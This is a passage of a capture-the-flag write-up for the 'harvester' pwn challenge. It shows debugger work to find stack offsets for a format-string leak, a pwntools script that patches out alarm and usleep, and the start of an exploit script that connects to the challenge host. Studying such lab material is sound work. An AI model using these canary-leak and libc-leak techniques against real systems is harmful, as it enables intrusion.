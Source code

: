 Remember the `printf` offset is `6` from above, that puts stack address `0x00007fffffffe2e0` at offset `10`.

Next set a breakpoint at `*stare` and compute the delta:

```
gef➤  b *stare
Breakpoint 2 at 0x555555400d2b
gef➤  c
Continuing.
blah

You are not strong enough to fight yet.

Options:

[1] Fight 👊	[2] Inventory 🎒
[3] Stare 👀	[4] Run 🏃
> 3
> gef➤  p/x (long)$rsp - (long)0x00007fffffffe2e0 + 0x38
$3 = 0x50
```

When the function starts RSP will be moved to RBP (the base pointer is the base of the stack frame).  The difference between them + 0x38 (remember the buffer in Ghidra is called `local_38` (or look at the stack diagram)) is our delta.

If we leak the stack as before and subtract `0x50` we'll have the address of `local_38` in the stack.

Alternatively, forget all this stack stuff and just use one\_gadget, in that case you only need to leak the canary and libc.


### No usleep, no alarm

```python
#!/usr/bin/env python3

from pwn import *

binary = ELF('./harvester')
binary.write(0xa1c,5*b'\x90') # usleep
binary.write(0xf74,5*b'\x90') # alarm
binary.save('./harvester_no_usleep')
os.chmod('./harvester_no_usleep',0o755)
```

This will create a new binary without the `alarm` and `usleep`.  Adding `usleep` to `printstr` is extra annoying, almost as annoying as ANSI color and unicode emojis.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./harvester_no_usleep')

if args.REMOTE:
    p = remote('46.101.22.121',31051)
    libc = ELF('./libc.so.6')
    __libc_start_main_offset = 231
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
```